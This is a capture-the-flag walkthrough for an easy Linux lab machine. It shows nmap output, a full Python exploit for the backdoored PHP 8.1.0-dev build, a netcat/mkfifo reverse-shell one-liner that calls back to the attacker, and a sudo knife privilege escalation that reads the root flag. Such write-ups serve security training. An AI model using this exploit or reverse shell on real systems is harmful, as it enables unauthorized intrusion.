

Overview¶
Machine Info¶
| Operating System | Difficulty | IP |
|---|---|---|
| Linux | Easy | 10.10.10.241 |
Walkthrough¶
Recon¶
nmap¶
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCjEtN3+WZzlvu54zya9Q+D0d/jwjZT2jYFKwHe0icY7plEWSAqbP+b3ijRL6kv522KEJPHkfXuRwzt5z4CNpyUnqr6nQINn8DU0Iu/UQby+6OiQIleNUCYYaI+1mV0sm4kgmue4oVI1Q3JYOH41efTbGDFHiGSTY1lH3HcAvOFh75dCID0564T078p7ZEIoKRt1l7Yz+GeMZ870Nw13ao0QLPmq2HnpQS34K45zU0lmxIHqiK/IpFJOLfugiQF52Qt6+gX3FOjPgxk8rk81DEwicTrlir2gJiizAOchNPZjbDCnG2UqTapOm292Xg0hCE6H03Ri6GtYs5xVFw/KfGSGb7OJT1jhitbpUxRbyvP+pFy4/8u6Ty91s98bXrCyaEy2lyZh5hm7MN2yRsX+UbrSo98UfMbHkKnePg7/oBhGOOrUb77/DPePGeBF5AT029Xbz90v2iEFfPdcWj8SP/p2Fsn/qdutNQ7cRnNvBVXbNm0CpiNfoHBCBDJ1LR8p8k=
| 256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGKC3ouVMPI/5R2Fsr5b0uUQGDrAa6ev8uKKp5x8wdqPXvM1tr4u0GchbVoTX5T/PfJFi9UpeDx/uokU3chqcFc=
| 256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJbkxEqMn++HZ2uEvM0lDZy+TB8B8IAeWRBEu3a34YIb
80/tcp open http syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Enumerate Web Service¶
By looking into the network tap in Firefox developer mode, we will find that the web service is running PHP version 8.1.0, which is vulnerable to Remote Code Execution.

Initial Foothold¶
PHP 8.1.0 Remote Code Execution¶
Exploit link: https://github.com/flast101/php-8.1.0-dev-backdoor-rce
#!/usr/bin/env python3
import os
import re
import requests
host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)
if str(response) == '<Response [200]>':
print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
try:
while 1:
cmd = input("$ ")
headers = {
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
"User-Agentt": "zerodiumsystem('" + cmd + "');"
}
response = request.get(host, headers = headers, allow_redirects = False)
current_page = response.text
stdout = current_page.split('<!DOCTYPE html>',1)
text = print(stdout[0])
except KeyboardInterrupt:
print("Exiting...")
exit
else:
print("\r")
print(response)
print("Host is not available, aborting...")
exit
To get RCE, just run the script and specify target URL
Ξ knife/scripts → python3 php-8.1.0-rce.py
Enter the full host url:
http://10.10.10.242
Interactive shell is opened on http://10.10.10.242
Can't access tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
No we got user access into the machine.
Privilege Escalation¶
Upgrade Shell¶
Firstly, let's upgrade our shell using the following command:
- In local machine run netcat listener
nc -nlvp 9002
- In target run the following command and change the IP
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.x 9002 >/tmp/f
- You will receive reverse shell back, now upgrade into into interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
Enumerate The Target Machine¶
First, let's check user binaries that he can run as root
$ james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on knife:
(root) NOPASSWD: /usr/bin/knife
So we found that user james can run the binary /usr/bin/knife as root. Let's check what is the content of the binary /usr/bin/knife
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
...
Kernel.load(bin_file)
By looking into the script it seems like it runs Ruby as root privileges.
So we can now run any Ruby script as root, we can abuse that by reading root.txt file
Reading root.txt File¶
Firstly, I created to following Ruby script:
File.open("/root/root.txt", "r") do |f|
f.each_line do |line|
puts line
end
end
The script reads /root/root.txt file, now we will send it into the target machine and run the following command in order to read root flag:
bash-5.0$ sudo /usr/bin/knife exec root.rb
sudo /usr/bin/knife exec root.rb
7a7f71--------5211a360d